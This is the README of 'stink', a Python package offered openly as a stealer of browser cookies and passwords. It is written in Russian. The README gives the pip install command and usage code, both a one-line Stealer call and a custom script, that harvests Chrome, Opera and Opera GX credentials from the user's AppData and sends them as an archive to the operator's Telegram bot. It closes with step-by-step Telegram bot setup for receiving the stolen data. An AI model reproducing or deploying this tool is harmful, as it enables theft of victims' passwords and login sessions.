 # stink

Стиллер куки и паролей с отправкой в Telegram всего лишь в 2 строки.

## Описание
`stink` в данный момент только начинает своё развитие. В будущем его функционал будет расширен.

## Навигация
* [Текущие возможности](#Текущие-возможности)
* [Будущие возможности](#Будущие-возможности)
* [Установка](#Установка)
* [Пример использования](#Пример-использования)
  * [Стандартный](#Стандартный)
  * [Кастомный](#Кастомный)
* [Настройка Telegram бота](#Настройка-Telegram-бота)
  * [Получение токена](#Получение-токена)
  * [Получение айди](#Получение-айди)

### Текущие возможности
1. Сбор куки и паролей следующих браузеров: Chrome, Opera, Opera GX.
2. Отправка собранных данных архивом в Telegram.
3. Выполнение в отдельном потоке.

### Будущие возможности
1. Поддержка других браузеров.
2. Сбор информации о системе.
3. Сбор айпи и местоположения.
 
## Установка

Установить последнюю версию можно командой:
```
pip install stink==0.0.3
```

## Пример использования
### Стандартный
```python
from stink.multistealer import Stealer

Stealer(token="YOUR_TOKEN", user_id=YOUR_ID).run()
```
Стандартный ```Stealer``` запускает сбор по всем доступным браузерам и отправляет собранные данные архивом вам в Telegram.

### Кастомный
```python
from os import path, mkdir
from getpass import getuser

from stink.browsers.chrome import Chrome
from stink.modules.sender import Sender

user = getuser()

zip_name = f"{user}-st"
storage_path = f"C:/Users/{user}/AppData/"
storage_folder = "files/"


def main():

    if not path.exists(storage_path + storage_folder):
        mkdir(storage_path + storage_folder)

    Chrome(storage_path, storage_folder).run()
    Sender(zip_name, storage_path, storage_folder, "YOUR_TOKEN", YOUR_ID).run()


if __name__ == "__main__":
    main()
```
В кастомном стиллере нужно самому прописывать путь для хранения собранных данных. Модуль ```Sender``` запакует все файлы в архив и отправит его вам в Telegram.

## Настройка Telegram бота
### Получение токена
1. Открываем чат с [BotFather](https://t.me/botfather).
2. Прописываем команду ```/newbot```.

<p align="left">
  <a href="">
    <img src="docs/_1.png" width="500px" style="display: inline-block;">
  </a>
</p>

3. Прописываем название бота, затем ник с прикладкой ```_bot``` в конце.

<p align="left">
  <a href="">
    <img src="docs/_2.png" width="500px" style="display: inline-block;">
  </a>
</p>

4. Полученный токен вставляем в поле ```"YOUR_TOKEN"``` в скрипте.

### Получение айди
1. Открываем чат с [Get My ID](https://t.me/getmyid_bot).
2. Прописываем команду ```/start```.

<p align="left">
  <a href="">
    <img src="docs/_3.png" width="500px" style="display: inline-block;">
  </a>
</p>

3. Полученный айди вставляем в поле ```YOUR_ID``` в скрипте.
